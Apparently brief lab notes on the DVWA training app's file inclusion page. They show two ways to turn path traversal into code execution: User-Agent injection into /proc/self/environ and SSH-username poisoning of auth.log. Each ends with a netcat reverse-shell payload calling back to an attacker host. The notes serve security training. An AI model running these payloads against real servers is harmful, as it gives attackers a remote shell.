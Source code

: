 # File Inclusion

## Method 1
1. *"USER_AGENT"* in in this file
   - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../proc/self/environ```
2. Intercept request and modify *"USER_AGENT"* header for test
   - Burp path: Proxy -> Intercept -> Headers -> Modify 'User-Agent' value to ```<?phpinfo();?>``` 
3. Listening on attacker machine
   - ```nc -vv -l -p 8888```
4. Modify *"USER_AGENT"* header for Reverse-shell
   - ```<?passthru("nc -e /bin/sh [Attacker address] 8888");?>```  

## Method 2
1. SSH login attempts are in this file
   - ```[DVWA address]/dvwa/vulnerabilities/fi/?page=../../../../../var/log/auth.log```  
2. Encode ```nc -e /bin/sh [Attacker address] 8888``` to Base64
3. Attacker machine: ```nc -vv -l -p 8888```
4. Attacker machine: ```ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxNzIuMjUuMTIuMzQgODg4OA=='));?>"@[DVWA address]```
  
